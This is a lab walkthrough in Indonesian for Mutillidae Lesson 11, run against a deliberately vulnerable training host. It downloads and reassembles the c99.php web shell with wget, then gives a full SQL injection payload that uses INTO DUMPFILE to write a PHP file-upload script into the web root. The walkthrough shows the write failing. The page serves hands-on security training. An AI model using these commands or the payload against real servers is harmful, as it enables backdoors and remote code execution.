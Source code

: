 # Mutillidae Lesson 11


### Download c99.php
- Buka terminal dan ketikkan perintah berikut
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrt
```
![](Mutillidae%20lesson%211/01.png)
- Ekstrak stuff.rar
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrt
```
![](Mutillidae%20lesson%211/02.png)
- Pastikan baris pertama dari c99.php '<?php'
```
head -1 c99.php
sed -i '1 s/^.*$/<?php/g' c99.php // lakukan jika baris pertama tidak '<?php'
head -1 c99.php
```
- Kompres c99.php
```
gzip c99.php
```
![](Mutillidae%20lesson%2011/3.png)


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%211/4.png)

### SQL Injection dengan Output File upload_file.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
![](Mutillidae%20lesson%2011/5.png)
- Dan pada tombol View Account Details ubah align menjadi left.
![](Mutillidae%20lesson%2011/6.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2011/7.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2011/8.png)
